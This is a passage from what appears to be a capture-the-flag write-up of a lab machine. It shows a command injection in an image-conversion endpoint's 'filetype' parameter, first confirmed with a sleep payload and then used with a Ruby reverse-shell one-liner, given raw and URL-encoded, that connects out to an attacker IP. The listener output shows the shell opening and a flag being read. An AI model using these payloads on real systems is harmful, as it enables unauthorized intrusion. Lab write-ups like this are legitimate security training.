 ```
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache

photo=masaaki-komori-NYFaNoiPf7A-unsplash.jpg&filetype=jpg&dimensions=3000x2000
```

After logging in, I can also hit the /printers endpoint I found earlier, which indicates it's a Sinatra app:

```
Sinatra doesn’t know this ditty.
Try this:

get '/printers' do
  "Hello World"
end
```

## Foothold

I initially tried to use [commix](https://github.com/commixproject/commix) for command injection, but it kept erroring out. I then tried command injection into the photo param without any success.  But then I was able to confirm command injection by sending the following payload to /printer:

```
photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=jpg;sleep 15&dimensions=30x20
```

So, we basically escape the file type with a semi-colon `;`, no need for quotes, double-quotes etc.

I confirmed the endpoint appeared to become unresponsive for ~15 seconds as expected.
I had issues with typical bash reverse shells, and assumed injecting into the file type was working as the application maybe (?) shells out to bash to run imagemagick or similar in order to convert the image format on the fly, but I was able to use a URL encoded ruby shell from [revshells.com](https://revshells.com):

```
ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.14.3",6969))'
```

When injected, by setting Burp Suite to automagically HTML encode my payload, we end up sending the following in the body of the POST request:

```
photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=jpg;ruby%20-rsocket%20-e%27spawn%28%22sh%22%2C%5B%3Ain%2C%3Aout%2C%3Aerr%5D%3D%3ETCPSocket.new%28%2210.10.14.3%22%2C6969%29%29%27&dimensions=30x20
```

I confirmed I now had a reverse shell:

```
$nc -lvnp 6969
listening on [any] 6969 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.11.182] 50358
python3 -c 'import pty; pty.spawn("/bin/bash")'
wizard@photobomb:~/photobomb$ id
id
uid=1000(wizard) gid=1000(wizard) groups=1000(wizard)
wizard@photobomb:~/photobomb$ find / -name 'user.txt' 2> /dev/null
find / -name 'user.txt' 2> /dev/null
/home/wizard/user.txt
wizard@photobomb:~/photobomb$ cat /home/wizard/user.txt
cat /home/wizard/user.txt
0afc4ac78d0ff030a8ee3a05821cabf1
```
